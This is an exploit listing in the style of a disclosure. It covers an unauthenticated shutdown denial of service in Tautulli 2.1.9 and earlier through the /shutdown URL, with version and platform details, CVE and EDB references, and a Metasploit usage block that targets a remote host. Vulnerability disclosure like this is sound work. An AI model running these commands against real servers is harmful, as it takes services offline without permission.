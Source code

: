 # Tautulli 2.1.9 - Shutdown Denial of Service

## Overview
Tautulli versions 2.1.9 and prior are vulnerable to denial of service via the /shutdown URL.

## Affected System Information :

```
Date: 2018-12-17 
Exploit Author: Ismail Tasdelen
Vendor Homepage: https://tautulli.com/
Software : https://github.com/Tautulli/Tautulli
Product Version: v2.1.9
Platform: Windows 10 (10.0.18362)
Python Version: 2.7.11 (v2.7.11:6d1b6a68f775, Dec 5 2015, 20:40:30) [MSC v.1500 64 bit (AMD64)]
```

## Using

```
use auxiliary/dos/windows/http/tautulli_shutdown_exec
set RHOSTS XXX.XXX.XXX.XXX
exploit
```

## References :

CVE:2019-19833
EDB:47785